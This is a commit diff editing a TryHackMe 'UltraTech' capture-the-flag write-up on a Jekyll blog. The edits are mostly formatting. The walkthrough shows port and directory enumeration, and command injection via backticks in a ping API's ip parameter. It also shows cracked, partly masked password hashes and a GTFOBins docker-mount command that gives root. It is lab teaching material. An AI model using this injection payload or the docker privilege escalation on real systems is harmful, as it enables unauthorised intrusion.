

Before and after one commit to bvr0n/bvr0n.github.io, a Jekyll site: the page built from _posts/thm/2021-07-01-ultratech.md, in a window 1280 px wide and 1400 px high. Shown: the part 321-1363 px from the top of the window at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Update 2021-07-01-ultratech.md

````diff
--- a/_posts/thm/2021-07-01-ultratech.md
+++ b/_posts/thm/2021-07-01-ultratech.md
@@ -8,7 +8,7 @@
 
 ## Nmap Scan :
 
-```
+```sh
 bvr0n@kali:~$ nmap -sC -sV -p- 10.10.180.145
 
 PORT      STATE SERVICE VERSION
@@ -21,11 +21,11 @@
 
 ## Directories Brute Forcing :
 
-```
+```sh
 bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:8081/FUZZ -w Documents/Dirbuster/wordlist.txt
 auth                    [Status: 200, Size: 39, Words: 8, Lines: 1]
 ```
-```
+```sh
 bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:31331/FUZZ -w Documents/Dirbuster/wordlist.txt
 .htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
 .hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
@@ -39,13 +39,17 @@
 robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 6]
 server-status           [Status: 403, Size: 304, Words: 22, Lines: 12]
 ```
+
 In /robots.txt we found this :
+
 ```
 Allow: *
 User-Agent: *
 Sitemap: /utech_sitemap.txt
 ```
-Goin to `/utech_sitemap.txt` give us this :
+
+Going to `/utech_sitemap.txt` give us this :
+
 ```
 /
 /index.html
@@ -54,6 +58,7 @@
 ```
 
 `/partners.html` seems to be a login page, inspecting the code source and checking what the API does, and this part caught my eyes :
+
 ```js
  function checkAPIStatus() {
         const req = new XMLHttpRequest();
@@ -66,7 +71,9 @@
                         console.log('The api seems to be running')
 
 ```
+
 I tried going to `http://10.10.180.145:8081/ping?ip=10.10.180.145` , And it seems like Code Execution :
+
 ```
 PING 10.10.180.145 (10.10.180.145) 56(84) bytes of data.
 64 bytes from 10.10.180.145: icmp_seq=1 ttl=64 time=0.016 ms
@@ -75,7 +82,9 @@
 1 packets transmitted, 1 received, 0% packet loss, time 0ms
 rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
 ```
+
 I tried to execute other commands and it worked :
+
 ```
 http://10.10.180.145:8081/ping?ip=10.10.180.145%20`whoami`
 ping: www: Temporary failure in name resolution
@@ -84,13 +93,16 @@
 ping: utech.db.sqlite: Name or service not known
 ```
 
-That file contained password hashes for 2 accounts : `admin` & `r00t`, Let's crack them using an [Online Tool](https://md5decrypt.net/) :
+That file contained password hashes for 2 accounts : `admin` & `r00t`, Let's crack them using an [online tool](https://md5decrypt.net/) :
+
 ```
 r00t : f357a0c******63c7c7b76c1e7543a32 : n****06
 admin : 0d0ea5111e3c1******c1684e3b9be84 : mr****fy
+
 ```
 
 When we login we get this :
+
 ```
 Restricted area
 
@@ -103,19 +115,22 @@
 
 ## Internal Enum :
 
-Since we have `r00t` credentials, Let's login to SSH.
+Since we have `r00t` credentials, Let's login to `SSH`.
 
-After running id looks like we are in a docker :
+After running `id` looks like we are in a `docker` :
+
 ```
 uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
 ```
 
 We then check [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) :
+
 ```
 r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
 ```
 
-This command won't work because there is no image named alphinen but we do have bash as image :
+This command won't work because there is no image named `alphine` but we do have `bash` as image :
+
 ```
 r00t@ultratech-prod:/tmp$ docker ps -a
 CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                       PORTS               NAMES
@@ -124,7 +139,9 @@
 696fb9b45ae5        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_varahamihira
 9811859c4c5c        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_volhard
 ```
+
 Executing this command give us root :
+
 ```
 r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
 root@41ff56823b91:/# id
@@ -132,15 +149,4 @@
 root@41ff56823b91:/#
 ```
 
-Thank's [m3dsec](https://github.com/m3dsec) for the reference ;)
-
-<br>
-best regards
-
-[bvr0n](https://github.com/bvr0n)
-
-
-<br>
-[back to main()](../../index.md)
-
-<br>
+Thank's [m3dsec](https://github.com/m3dsec) for the reference.
````
